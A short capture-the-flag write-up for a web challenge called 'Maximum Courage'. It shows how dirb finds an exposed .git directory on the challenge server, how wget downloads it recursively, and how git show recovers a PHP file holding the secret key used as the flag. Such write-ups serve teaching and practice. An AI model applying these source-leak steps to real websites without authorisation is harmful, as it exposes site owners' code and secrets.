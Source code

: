 ## Maximum Courage  

### The Problem:

> Max prefers to learn by practicing and not just reading all day, so he set up a webserver and hopes it stays secret, can you prove it has a weakness?  (http://35.197.204.100/maximum/)

### The Solution:

- `dirb http://35.197.204.100/maximum/`:  
  > ...
  > + http://35.197.204.100/maximum/.git/HEAD (CODE:200|SIZE:23) 
  > ...
  
- `wget --recursive  http://35.197.204.100/maximum/.git/`  
- `git show flag.php`:  
```
commit ca432659ef19b8e1cfd6607878c4eb5a778dc37d
Author: max <git@max.com>
Date:   Sat Feb 23 15:30:44 2019 +0200

    First commit

diff --git a/flag.php b/flag.php
new file mode 100644
index 0000000..f3df28f
--- /dev/null
+++ b/flag.php
@@ -0,0 +1,7 @@
+You can't view this flag directly.
+<!-- PHP source doesn't appear on HTML comments -->
+<?php
+exit();
+die();
+$secret_key = 'be607453caada6a05d00c0ea0057f733';
+?>
\ No newline at end of file
```

- `echo -n be607453caada6a05d00c0ea0057f733 | wc -c` -> 32 -> possibly md5

### The flag: 
`be607453caada6a05d00c0ea0057f733`




